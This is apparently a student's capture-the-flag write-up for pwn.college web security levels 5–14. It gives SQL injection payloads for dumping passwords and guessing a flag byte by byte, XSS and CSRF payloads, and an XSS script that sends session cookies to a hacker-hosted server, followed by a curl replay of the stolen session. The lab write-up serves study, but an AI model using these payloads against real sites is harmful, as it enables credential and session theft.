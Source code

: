 # Web Security
- *level 5*: we can only control `query` in `SELECT username FROM users WHERE username LIKE "{query}"`. By testing, `db.execute()` can not execute more than one separate statement at once. Use `UNION ALL` to combine the result of 2 statements, the SQL statement being executed is `SELECT username FROM users WHERE username LIKE "%" UNION ALL SELECT password FROM users; --"`
- *level 6*: this time, the table name is unknown (`table_name = f"table{hash(flag) & 0xFFFFFFFFFFFFFFFF}"`). We can use a statement `SELECT name FROM sqlite_master WHERE type='table'` to figure out the table name. To know that the server is using `sqlite`, we can just cause some error, and see the error information, e.g., `sqlite3.OperationalError: ...`
- *level 7*: an obstable is that this time, it will finally finds a user using `rowid`, and only prints out the `username` column. We can use the error information to help us to figure out 1 byte of the flag each time. Specifically, the server will first select exact one user using `username` and `password`, if the query result is empty, there will be an error `Invalid 'username' or 'password'`, we can use something like this in our query `WHERE password LIKE ?`, the `?` can be something like `pwn.college{...%`, if the prefix exists, there won't be error because the query result is not empty. Otherwise, there will be an error. So we can start from `pwn.college{`, and each time, we guess 1 character, until we get ``pwn.college{...}`. Mind that `LIKE` is case-insensitive, we should instead use `GLOB`, which is case-sensitive
- *level 8*: cross-site scripting, inject a script to trigger an alert
- *level 9*: it puts our input into `<textarea></textarea>`, we can bypass it by using `</textarea><script>alert("x")</script><textarea>` as our input
- *level 10*: we need to get the user to visit `/leak`, and then we can get the flag by visiting `/info`
- *level 11*: cross site request forgery. When visiting `challenge.localhost:80/visit?url=...`, the server only accept `hacker.localhost` as host name in the `url`, so we cannot directly get the user to visit `/leak` to leak their password (the flag). Instead, we can use a `url=http://hacker.localhost:8776/redirect=http://challenge.localhost:80/leak` to redirect the user to the leaking page. Before this, we need to open a simple server `hacker.localhost` at port `8776`, use `python -m http.server 8776 --bind hacker.localhost`
- *level 12*: the request to `/leak` must be a POST request, this time we cannot directly redirect in the URL, instead, we can redirect at the (malicious) server side
    ```
    <script>
        function submitForm() {
            var form = document.createElement('form');
            form.method = 'POST'; // Set the method to POST
            form.action = 'http://challenge.localhost:80/leak';
            document.body.appendChild(form);
            form.submit();
        }
        window.onload = submitForm;
    </script>
    ```
- *level 13*: exploit a  XSS vulnerability to exfilitrate user session data. We can steal the session ID in the cookie, and send a request to `/info` with it. This time, I hosted the malicious script in a remote server, and get the server to run it by injecting `<script src="http://hacker.localhost:8776/hacker_script.js"></script>`, this script will visit the hacker's server with `document.cookie` as a parameter in the URL, so by inspecting the print out information on the hacker's server, we can figure out the session ID
    - `127.0.0.1 - - [15/Mar/2024 13:18:00] "GET /?cookie=session=eyJ1c2VyIjoxfQ.ZfRKiA.YIsk5t_9cSqsYhYhmJxsU5FTuS4 HTTP/1.1" 200 -`
    - `curl -b "session=eyJ1c2VyIjoxfQ.ZfRKiA.YIsk5t_9cSqsYhYhmJxsU5FTuS4" http://challenge.localhost:80/info?user=1`
- *level 14*: in level 13, there is `app.config['SESSION_COOKIE_HTTPONLY'] = False`, this will not prevent scripts to access the session cookie (so we can use `document.cookie` to get it). In this level, this setting is removed, so we will not be able to use previous method to get the session ID. The `/visit` page only return `Visited`, if we visit `/info` through `/visit`, we can use `/echo` to inject a script, and visit `/info` in that script, since the script is running on the server side, we don't need to know the session ID. Then, inside the script, we get the response from `/info`, although it will not be printed out, we can use the same method in level 13, visit the hacker's server and embed this result in the URL
